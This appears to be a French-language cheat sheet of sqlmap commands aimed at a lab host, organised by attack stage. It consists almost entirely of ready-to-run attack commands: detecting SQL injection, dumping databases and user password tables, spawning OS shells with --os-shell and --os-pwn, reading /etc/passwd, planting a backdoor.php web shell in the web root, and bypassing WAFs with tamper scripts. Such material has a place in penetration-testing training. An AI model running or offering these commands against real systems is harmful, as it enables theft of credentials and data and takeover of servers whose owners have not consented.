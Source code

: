 
## 🔍 **Détection et Identification**

### Tester une URL vulnérable à l'injection SQL :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" --batch --dbs
```

### Détection avec POST data :

```bash
sqlmap -u "http://192.168.56.102/login.php" --data "username=admin&password=test" --batch --dbs
```

### Détection avec Cookie :

```bash
sqlmap -u "http://192.168.56.102/login.php" --cookie="PHPSESSID=abcd1234" --batch --dbs
```

---

## 📌 **Récupération d'Informations**

### Lister les bases de données disponibles :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" --dbs
```

### Lister les tables d'une base de données spécifique :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" -D database_name --tables
```

### Lister les colonnes d'une table spécifique :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" -D database_name -T table_name --columns
```

### Extraire le contenu d'une table :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" -D database_name -T table_name --dump
```

---

## 🔑 **Exfiltration de Données Sensibles**

### Extraire les utilisateurs et mots de passe :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" -D database_name -T users --dump
```

### Extraire uniquement les noms d'utilisateur :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" -D database_name -T users -C username --dump
```

### Extraire uniquement les mots de passe :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" -D database_name -T users -C password --dump
```

---

## 🔥 **Prise de Contrôle et Exécution de Commandes**

### Vérifier si le serveur permet l'exécution de commandes :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" --os-shell
```

### Obtenir un shell interactif :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" --os-pwn
```

### Lire un fichier sensible (ex: /etc/passwd) :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" --file-read="/etc/passwd"
```

### Écrire un fichier sur le serveur :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" --file-write="/var/www/html/backdoor.php" --file-dest="/var/www/html/backdoor.php"
```

---

## ⚙️ **Évasion et contournement**

### Utiliser différents niveaux de tests (plus agressif) :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" --level=5 --risk=3
```

### Bypasser un WAF :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" --tamper=space2comment
```

### Essayer différentes techniques d'injection :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" --technique=BEUST
```

### Tester si la connexion est authentifiée avec une session :

```bash
sqlmap -u "http://192.168.56.102/login.php?id=1" --cookie="session=xyz" --dbs
```

---
